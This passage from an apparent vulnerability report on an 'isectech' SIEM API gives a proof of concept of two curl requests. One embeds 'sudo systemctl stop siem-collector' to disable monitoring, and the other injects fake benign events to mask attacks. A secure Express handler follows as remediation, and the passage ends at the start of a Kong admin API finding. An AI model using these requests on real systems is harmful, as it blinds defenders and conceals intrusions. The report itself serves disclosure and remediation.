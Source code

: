 **Proof of Concept:**
```bash
# Disable SIEM monitoring
curl -X POST "https://api.isectech.com/api/siem/events" \
  -H "Content-Type: application/json" \
  -d '{
    "timestamp": "2025-08-06T12:00:00Z",
    "type": "disable_monitoring",
    "source": "system_maintenance",
    "severity": "low",
    "command": "sudo systemctl stop siem-collector"
  }'

# Inject false-positive events to mask attacks
curl -X POST "https://api.isectech.com/api/siem/events" \
  -H "Content-Type: application/json" \
  -d '{
    "timestamp": "2025-08-06T12:00:00Z",
    "type": "benign_activity",
    "source": "legitimate_user",
    "description": "Normal system operation - ignore alerts"
  }'
```

**Technical Impact:**
- Complete security monitoring bypass
- Incident response automation disabled  
- 24-hour attack window with zero detection
- Compliance monitoring failures

**Immediate Technical Remediation:**
```javascript
// Secure SIEM event processing
app.post('/api/siem/events', authenticateAPI, validateSIEMInput, (req, res) => {
    const event = sanitizeInput(req.body);
    
    // SECURE: No direct system control via events
    // SECURE: Validate event structure and source
    if (!isValidEventStructure(event) || !isAuthorizedSource(event.source)) {
        return res.status(400).json({error: 'Invalid event format'});
    }
    
    SIEMDatabase.insert(event);
    AuditLog.record({action: 'event_received', source: req.ip, event: event});
    res.json({status: 'success'});
});
```

### CVE-3: Administrative API Exposure (CVSS 9.6)

**Technical Description:**
The Kong API Gateway administrative interface is exposed with insufficient access controls, allowing unauthorized users to modify routing rules, authentication policies, and security configurations.

